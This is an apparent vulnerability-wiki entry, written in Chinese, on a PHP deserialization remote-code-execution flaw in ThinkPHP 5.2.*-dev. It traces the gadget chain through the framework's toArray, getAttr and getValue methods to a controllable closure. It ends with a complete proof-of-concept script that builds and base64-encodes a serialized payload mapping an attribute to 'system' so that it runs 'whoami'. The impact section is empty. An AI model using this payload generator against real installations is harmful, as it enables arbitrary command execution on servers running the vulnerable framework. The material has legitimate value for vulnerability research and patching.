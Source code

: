 Thinkphp 5.2.\*-dev 反序列化漏洞
================================

一、漏洞简介
------------

所有Thinkphp版本下载链接

<https://packagist.org/packages/topthink/framework>

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

    composer create-project topthink/think=5.2.*-dev v5.2

### poc演示截图

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId27.png)

### 调用链

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId29.png)

### 单步调试

可以看到前面的链跟tp5.1.x的一样，这里不在列举，直接进去toArray函数，可以看到\$data可控

    public function toArray(): array
    {
    。。。
    $data = array_merge($this->data, $this->relation);

    foreach ($data as $key => $val) {
       if ($val instanceof Model || $val instanceof ModelCollection) {
         // 关联模型对象
         if (isset($this->visible[$key])) {
          $val->visible($this->visible[$key]);
         } elseif (isset($this->hidden[$key])) {
          $val->hidden($this->hidden[$key]);
         }
         // 关联模型对象
         $item[$key] = $val->toArray();
       } elseif (isset($this->visible[$key])) {
         $item[$key] = $this->getAttr($key);
       } elseif (!isset($this->hidden[$key]) && !$hasVisible) {
         $item[$key] = $this->getAttr($key);
       }
    }
    。。。
    public function getAttr(string $name)
    {
        try {
            $relation = false;
            $value    = $this->getData($name);
        } catch (InvalidArgumentException $e) {
            $relation = true;
            $value    = null;
        }

        return $this->getValue($name, $value, $relation);
    }
    public function getData(string $name = null)
       {
           if (is_null($name)) {
               return $this->data;
           }

           $fieldName = $this->getRealFieldName($name);

           if (array_key_exists($fieldName, $this->data)) {
               return $this->data[$fieldName];
               ...
           }
       }
    protected function getRealFieldName(string $name): string
    {
        return $this->strict ? $name : App::parseName($name);  //this->strict默认为true
    }

可以看到getAttr函数中的\$value可控，那么导致\$this-\>getValue(\$name,
\$value, \$relation);这里的三个参数都可控，跟进\$this-\>getValue(\$name,
\$value, \$relation);

    protected function getValue(string $name, $value, bool $relation = false)
    {
        // 检测属性获取器
        $fieldName = $this->getRealFieldName($name);
        $method    = 'get' . App::parseName($name, 1) . 'Attr';

        if (isset($this->withAttr[$fieldName])) {
           if ($relation) {
             $value = $this->getRelationValue($name);
           }

           $closure = $this->withAttr[$fieldName];
           $value   = $closure($value, $this->data);

这里\$fieldName、\$this-\>withAttr，导致\$closure也可控，最终直接产生RCE。如下图

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId31.png)

补充：

    <?php

    $a = array();
    system('whoami',$a);

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId32.png)

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp5.2.*-dev反序列化漏洞/media/rId33.png)

### poc v5.2.\*-dev

    <?php
    namespace think\process\pipes {
        class Windows
        {
            private $files;
            public function __construct($files)
            {
                $this->files = array($files);
            }
        }
    }

    namespace think\model\concern {
        trait Conversion
        {
            protected $append = array("Smi1e" => "1");
        }

        trait Attribute
        {
            private $data;
            private $withAttr = array("Smi1e" => "system");

            public function get($system)
            {
                $this->data = array("Smi1e" => "$system");
            }
        }
    }
    namespace think {
        abstract class Model
        {
            use model\concern\Attribute;
            use model\concern\Conversion;
        }
    }

    namespace think\model{
        use think\Model;
        class Pivot extends Model
        {
            public function __construct($system)
            {
                $this->get($system);
            }
        }
    }
    namespace{
        $Conver = new think\model\Pivot("whoami");
        $payload = new think\process\pipes\Windows($Conver);
        echo base64_encode(serialize($payload));
    }
    ?>

四、参考链接
------------

> <https://www.t00ls.net/thread-54324-1-1.html>
